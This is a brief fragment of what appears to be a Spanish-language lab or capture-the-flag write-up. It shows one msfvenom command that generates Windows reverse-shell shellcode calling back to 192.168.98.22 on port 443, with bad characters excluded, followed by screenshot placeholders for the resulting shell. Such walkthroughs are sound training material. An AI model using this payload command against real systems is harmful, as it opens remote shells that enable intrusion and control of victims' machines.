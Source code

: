 ## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\xa0\xad\xbe\xde\xef" -f c
```

![20240229000725.png](20240229000725.png)

## Shell

![20240229000746.png](20240229000746.png)

